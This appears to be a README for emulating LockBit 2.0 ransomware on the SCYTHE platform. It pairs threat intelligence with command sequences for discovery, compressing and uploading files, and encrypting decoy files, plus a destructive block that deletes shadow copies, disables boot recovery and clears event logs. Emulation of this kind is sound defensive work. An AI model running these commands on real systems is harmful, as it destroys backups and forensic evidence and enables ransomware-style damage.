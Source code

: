 # LockBit

## Cyber Threat Intelligence
LockBit 2.0 operates as an affiliate-based Ransomware-as-a-Service (RaaS) and employs a wide variety of tactics, techniques, and procedures (TTPs), creating significant challenges for defense and mitigation. LockBit 2.0 ransomware compromises victim networks through a variety of techniques, including, but not limited to, purchased access, unpatched vulnerabilities, insider access, and zero day exploits. [^1]

Upon execution, Lockbit 2.0 determines the system and user language settings and only targets those not matching a set list of languages that are Eastern European. If an Eastern European language is detected, the program exits without infection. As infection begins, Lockbit 2.0 deletes log files and shadow copies residing on disk. Lockbit 2.0 enumerates system information to include hostname, host configuration, domain information, local drive configuration, remote shares, and mounted external storage devices.Lockbit 2.0 attempts to encrypt any data saved to any local or remote device but skips files associated with core system functions.

## Automated Emulation
*** Note this threat is destructive if running with high privilege ***
1. Download and import the threat in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under LockBit/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/LockBit
4. Create a new campaign with HTTPS.
5. Import from Existing Threat: LockBit
6. Launch the Campaign

## Manual Emulation

Launch a campaign with the C2 parameters you wish to use. 

Once you have a shell, execute the following procedures:
```
loader --load run
```
Determine the language of the target operating system:
```
run reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Nls\Language
```
LockBit does not execute on systems set with Eastern European languages. The return of the reg query should not match
```
2092 1068 1067 1059 1079 1087 1088 2073 1049 1064 1090 2115 1091
```
Perform discovery procedures:
```
run whoami
loader --load printscr
printscr --window Desktop
loader --load sysinfo
sysinfo
loader --load processes
processes
run cmd /c dir %USERPROFILE%\Documents
run net use
```
Prepare the system for impact TTPs:
```
run cmd /c mkdir "%USERPROFILE%\Desktop\LockBit"
loader --load file
file --create --path "%USERPROFILE%\Desktop\LockBit\target_files.xls" --size 5MB --count 10 --random
```
Exfiltrate:
```
loader --load upsh
upsh --cmd "Compress-Archive -Path $env:userprofile\Desktop\LockBit -CompressionLevel Optimal -Destination $env:userprofile\Desktop\LockBit\exfil.zip"
loader --load uploader
uploader --remotepath "%USERPROFILE%\Desktop\LockBit\exfil.zip"
```
Encrypt the files:
```
file --create --path "%USERPROFILE%\Desktop\LockBit_Ransomware.hta" --size 1MB --random
loader --load crypt
crypt --target "%USERPROFILE%\Desktop\LockBit\" --encrypt --password "LockBit" --erase --extension lockbit
```
Download the ransom note and open it:
```
loader --load downloader
downloader --src "VFS:/shared/LockBit/Restore-My-Files.txt" --dest "%USERPROFILE%\Desktop\LockBit\Restore-My-Files.txt"
run powershell notepad "%USERPROFILE%\Desktop\LockBit\Restore-My-Files.txt"
```
Clean up:
```
run cmd /c rmdir /Q /S ""%USERPROFILE%\Desktop\LockBit""
run cmd.exe /c del "%USERPROFILE%\Desktop\LockBit_Ransomware.hta"
```
If running with high privilege and want to run the destrutive TTPs:
```
controller --integrity
run vssadmin Delete Shadows /All /Quiet
run bcdedit /set {default} recoveryenabled No
run bcdedit /set {default} bootstatuspolicy ignoreallfailures
run wmic SHADOWCOPY /nointeractive
run wevtutil cl security
run wevtutil cl system
run wevtutil cl application
run vssadmin delete shadows /all /quiet & wmic shadowcopy delete & bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no
```
Shutdown the payload
```
controller --shutdown
```

## References
- [FBI Flash](https://www.ic3.gov/Media/News/2022/220204.pdf)
[^1]: [FBI Flash](https://www.ic3.gov/Media/News/2022/220204.pdf)